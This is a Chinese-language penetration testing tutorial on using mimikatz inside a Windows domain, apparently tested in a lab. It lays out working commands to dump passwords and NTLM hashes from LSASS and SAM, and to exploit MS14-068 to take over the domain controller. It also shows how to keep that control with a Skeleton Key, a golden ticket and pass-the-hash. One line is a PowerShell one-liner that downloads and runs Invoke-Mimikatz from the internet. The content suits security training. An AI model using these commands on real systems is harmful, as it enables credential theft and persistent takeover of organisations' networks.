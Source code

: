 # 内网渗透中的mimikatz

0x00 前言
=====

上篇测试了中间人攻击利用框架bettercap，这次挑选一款更具代表性的工具——mimikatz

![这里写图片描述](http://drops.javaweb.org/uploads/images/ae1de40b1781b45c61de7cdd9dfaccd2b2971229.jpg)

0x01 简介
=====

mimikatz，很多人称之为密码抓取神器，但在内网渗透中，远不止这么简单

0x02 测试环境
=====

网络资源管理模式：

```
域

```

已有资源：

```
域内一台主机权限
操作系统：win7 x64
域权限:普通用户

```

0x03 测试目标
=====

1、获得域控权限 2、导出所有用户口令 3、维持域控权限

0x04 测试过程
=====

### 1、获取本机信息

**mimikatz**：

```
privilege::debug
sekurlsa::logonpasswords

```

获取本机用户名、口令、sid、LM hash、NTLM hash 如图![这里写图片描述](http://drops.javaweb.org/uploads/images/50ba40c4f2077af80d351302342f68da4c483e51.jpg)

### 2、攻击域控，获得权限

使用ms14-068漏洞

```
ms14-068.exe -u -p -s -d 

```

生成伪造缓存test.ccache:

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/fa682894ef5172fefa88b9a746d5f016b960ded4.jpg)导入伪造缓存:**mimikatz：**

```
kerberos::ptc test.ccache

```

登陆：

```
net use \\A-635ECAEE64804.TEST.LOCAL
dir \\A-635ECAEE64804.TEST.LOCAL\c$

```

获得域控权限，如图![这里写图片描述](http://drops.javaweb.org/uploads/images/dce0d3c32d7ed09945f254232d0ff9b605ffa82c.jpg)

### 3、导出域控信息

（1）直接获取内存口令**mimikatz：**

```
privilege::debug
sekurlsa::logonpasswords

```

（2）通过内存文件获取口令 使用procdump导出lsass.dmp**mimikatz：**

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords full

```

（3）通过powershell加载mimikatz获取口令

```
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz

```

（4）导出所有用户口令 使用Volue Shadow Copy获得SYSTEM、SAM备份（之前文章有介绍）**mimikatz：**

```
lsadump::sam SYSTEM.hiv SAM.hiv

```

### 4、维持域控权限

（1）Skeleton Key**mimikatz：**

```
privilege::debug
misc::skeleton

```

万能钥匙，可使用任意用户登陆域控

```
net use \\A-635ECAEE64804.TEST.LOCAL mimikatz /user：test

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/b347730dc1d295b3254ea6f60e35f79bf02cdf59.jpg)

（2）golden ticket**mimikatz：**

```
lsadump::lsa /patch

```

获取krbtgt的ntlmhash，如图![这里写图片描述](http://drops.javaweb.org/uploads/images/8e496641fa6b2c51b4fd212fe7f1085757fada43.jpg)

生成万能票据：**mimikatz：**

```
kerberos::golden /user:Administrator /domain:test.local /sid:S-1-5-21-2848411111-3820811111-1717111111 /krbtgt:d3b949b1f4ef947820f0950111111111 /ticket:test.kirbi

```

导入票据：**mimikatz：**

```
kerberos::ptt test.kirbi

```

登陆域控：

```
net use \\A-635ECAEE64804.TEST.LOCAL
dir \\A-635ECAEE64804.TEST.LOCAL\c$

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/f6d6df1223ff308f1bc9364ef78a0b8662ba3dbb.jpg)

**_Tips:_**

```
Golden Ticket不多说，自行理解
By default, the Golden Ticket default lifetime is 10 years
password changing/smartcard usage does not invalidate Golden Ticket;
this ticket is not emitted by the real KDC, it's not related to ciphering methods allowed;
NTLM hash of krbtgt account is never changed automatically.

```

（3）Pass-The-Hash**mimikatz：**

```
sekurlsa::pth /user:Administrator /domain:test.local /ntlm:cc36cf7a8514893efccd332446158b1a

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/7646654f4c08354ce04956dde06851b3eec7e56d.jpg)

### 5、补充

登陆域控，刷新扫雷记录，留下名字;D**mimikatz：**

```
minesweeper::infos

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/79eb83df4bf0f6f285b69ac9a1845f4299a61396.jpg)

0x05 小结
=====

本文重点在于介绍mimikatz在内网渗透中的常用方法，其它细节做了适当省略，可在后续详细介绍细节。

**本文由三好学生原创并首发于乌云drops，转载请注明，谢谢**神器在手，会用才行；） 水平有限，欢迎补充。